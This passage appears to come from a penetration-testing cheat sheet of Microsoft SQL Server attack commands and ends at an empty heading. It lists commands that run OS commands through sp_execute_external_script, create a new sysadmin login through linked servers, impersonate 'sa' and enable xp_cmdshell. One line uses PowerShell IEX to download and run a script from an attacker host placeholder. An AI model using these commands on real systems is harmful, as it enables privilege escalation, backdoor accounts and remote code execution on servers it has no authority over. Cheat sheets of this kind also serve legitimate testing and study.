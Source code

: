 ### Python Code Execution

```console
SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'print( "foobar" );';
SQL> EXEC sp_execute_external_script @language = N'Python', @script = N'import os;os.system("whoami");';
```

### Register new Sysadmin User

```console
SQL> EXEC ('EXEC (''EXEC sp_addlogin ''''sadmin'''', ''''p4ssw0rd!'''''') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
SQL> EXEC ('EXEC (''EXEC sp_addsrvrolemember ''''sadmin'''',''''sysadmin'''''') at [<DOMAIN>\<CONFIG_FILE>]') at [<DOMAIN>\<CONFIG_FILE>];
```

### xp_cmdshell

#### Impersonate SA

```console
SQL> EXECUTE AS LOGIN = 'sa';
SQL> EXEC sp_configure 'Show Advanced Options', 1; 
SQL> RECONFIGURE; 
SQL> EXEC sp_configure 'xp_cmdshell', 1; 
SQL> RECONFIGURE;
SQL> EXEC xp_cmdshell 'dir';
```

#### Execute Script HTTP Server

```console
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LHOST>/<SCRIPT>.ps1\");"
```

#### Start xp_cmdshell via MSSQL

```console
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```

##### Alternative Way to start xp_cmdshell

```console
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

#### Import PowerShell Scripts and execute Commands
